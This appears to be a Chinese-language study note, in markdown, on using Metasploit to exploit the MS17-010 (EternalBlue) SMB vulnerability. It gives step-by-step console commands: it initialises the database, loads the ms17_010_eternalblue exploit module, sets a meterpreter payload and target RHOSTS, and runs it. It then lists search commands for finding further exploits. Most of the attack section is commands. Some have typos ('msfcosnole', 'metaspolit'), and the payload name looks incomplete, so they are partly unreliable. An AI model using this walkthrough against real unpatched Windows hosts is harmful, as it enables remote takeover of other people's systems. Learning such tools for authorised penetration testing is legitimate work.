 # metasploit

### 启动metasploit

1. 启动终端
   
   ```shell
   msfcosnole
   ```

2. ```shell
   sudo su
   ```

3. 初始化metaspolit数据库
   
   ```shell
   msfdb init
   ```

### 永恒之蓝漏洞

永恒之蓝工具利用SMB漏洞获取系统最高操作权限

### metasploit攻击永恒之蓝

1. 使用模块
   
   ```shell
   use exploit/windows/smb/ms17_010_eternalblue
   ```

2. 设置必选项
+ 查看必选项（*required为yes的就是必选项）
  
  ```shell
  show options
  ```

+ 查找漏洞
  
  ```shell
  search ms17_010
  ```
  
  ![](imgs/2023-07-30-23-27-47-image.png)
  
  其中exploit为攻击模块，auxiliary为辅助模块（检测漏洞是否存在）

+ 使用模块
  
  ```shell
  # use+编号或漏洞全称
  use 0
  use exploit/windows/smb/ms17_010_eternalblue
  ```

+ 设置必选项
  
  ![](imgs/2023-07-30-23-59-57-image.png)
  
  发现需要设置目标设备的IP地址
  
  ![](imgs/2023-07-31-00-01-05-image.png)
  
  在早期版本中需要设置payload
  
  ```shell
  set payload windows/x64/meterpreter
  ```
  
  设置目标设备的ip地址
  
  ```shell
  set RHOSTS 127.0.0.1
  ```

+ 运行
  
  ```shell
  run
  ```

+ 其他操作
  
  ```shell
  back # 返回主菜单
  exit # 退出msfconsole 
  search:linux # 查找linux漏洞
  search name:mysql type:exploit # 查找mysql漏洞类型是exp
  search cve:CVE-2017-8464 type:exploit # 查找cve可执行exp漏洞
  ```

+ 


